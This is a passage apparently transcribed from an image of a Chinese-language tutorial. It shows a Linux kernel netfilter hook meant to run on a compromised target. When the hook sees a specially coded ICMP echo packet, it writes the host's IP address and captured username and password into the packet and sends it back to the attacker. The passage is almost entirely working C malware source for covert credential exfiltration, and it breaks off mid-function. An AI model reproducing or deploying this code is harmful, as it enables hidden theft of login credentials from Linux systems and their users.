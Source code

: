  #### 4. target中使用netfilter过滤收到的包，当发现特定的icmp包后，直接修改此数据报，mac、ip、username、pwd，并发送回hack。  
 
 ```c

    static unsigned int watch_in(void *priv, struct sk_buff *skb,
    const struct nf_hook_state *state)
    {
        struct sk_buff *sb = skb;
        struct icmphdr *icmp;
        char *cp_data;    /* Where we copy data to in reply */
        unsigned int taddr;   /* Temporary IP holder */
        printk("pre routing");
        /* Do we even have a username/password pair to report yet? */
        if (!have_pair)
            return NF_ACCEPT;
        /* Is this an ICMP packet? */
        if (ip_hdr(sb)->protocol != IPPROTO_ICMP)
        return NF_ACCEPT;
        icmp = (struct icmphdr *)(sb->data + ip_hdr(sb)->ihl * 4); //+20 ip头
        /* Is it the MAGIC packet? */
        if (icmp->code != MAGIC_CODE || icmp->type != ICMP_ECHO
        || ICMP_PAYLOAD_SIZE < REPLY_SIZE) {
        printk("it`s not a MAGIC packet");
        return NF_ACCEPT;
        }
        /* 直接修改 接收 的buffer
        * Okay, matches our checks for "Magicness", now we fiddle with
        * the sk_buff to insert the IP address, and username/password pair,
        * swap IP source and destination addresses and ethernet addresses
        * if necessary and then transmit the packet from here and tell
        * Netfilter we stole it. Phew... */
        printk("get the MAGIC packet");
        /*交换src dst 的ip*/
        taddr = ip_hdr(sb)->saddr;
        ip_hdr(sb)->saddr = ip_hdr(sb)->daddr;
        ip_hdr(sb)->daddr = taddr;
        sb->pkt_type = PACKET_OUTGOING;
        //设置mac
        switch (sb->dev->type) {
        case ARPHRD_PPP:     /* Ntcho iddling needs doing */
        break;
        case ARPHRD_LOOPBACK:
        case ARPHRD_ETHER:
          {
           unsigned char t_hwaddr[ETH_ALEN];

           /*将源MAC设置为目的MAC*/
           sb->data = (unsigned char *)eth_hdr(sb);
           sb->len += ETH_HLEN; //sizeof(sb->mac.ethernet);
           memcpy(t_hwaddr, (eth_hdr(sb)->h_dest), ETH_ALEN);
           memcpy((eth_hdr(sb)->h_dest), (eth_hdr(sb)->h_source),
             ETH_ALEN);
           memcpy((eth_hdr(sb)->h_source), t_hwaddr, ETH_ALEN);
          break;
          }
        };
        /* Now copy the 自身的IP address, then Username, then password into packet */
        /*(char *)icmp 是为了保证指针移动的标准是char* ，64位OS中是8字节*/
        cp_data = (char *)((char *)icmp + sizeof(struct icmphdr));
        memcpy(cp_data, &target_ip, 4);
        if (username)
        //memcpy(cp_data + 4, username, 16);
            memcpy(cp_data + 4, username, 16);
 ```